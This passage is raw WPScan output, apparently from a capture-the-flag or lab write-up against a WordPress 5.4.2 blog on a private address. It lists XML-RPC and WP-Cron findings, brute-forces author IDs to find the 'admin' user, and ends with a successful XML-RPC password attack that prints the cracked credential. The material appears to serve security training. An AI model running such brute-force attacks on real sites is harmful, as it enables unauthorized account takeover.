 ```
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.209.187/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.209.187/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.209.187/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.209.187/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <============================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=============================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                                                                
Trying admin / my2boys Time: 00:02:45 <                                                                                                                           > (3885 / 14348279)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```